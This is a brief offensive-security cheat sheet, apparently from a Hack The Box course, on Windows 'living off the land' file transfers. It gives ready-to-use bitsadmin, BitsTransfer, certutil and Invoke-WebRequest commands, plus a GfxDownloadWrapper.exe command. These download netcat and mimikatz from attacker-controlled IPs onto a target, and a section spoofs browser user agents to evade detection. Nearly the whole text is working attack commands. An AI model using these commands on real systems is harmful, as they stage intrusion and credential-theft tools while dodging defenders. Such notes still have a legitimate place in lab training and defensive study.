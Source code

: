 ## **Living off The Land**
1. Using the LOLBAS and GTFOBins Project
2. File Download with Bitsadmin: `bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe`
3. Bitstransfer: `Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"`
4. Certutil: `certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe` or `certutil -urlcache -split -f http://10.10.10.32/nc.exe `
## **Evading Detection**
1. Listing out User Agents: `[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl`
2. Request with Chrome User Agent: 
    1. `$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome`
    2. `Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"`
3. Transferring File with GfxDownloadWrapper.exe: `GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"`
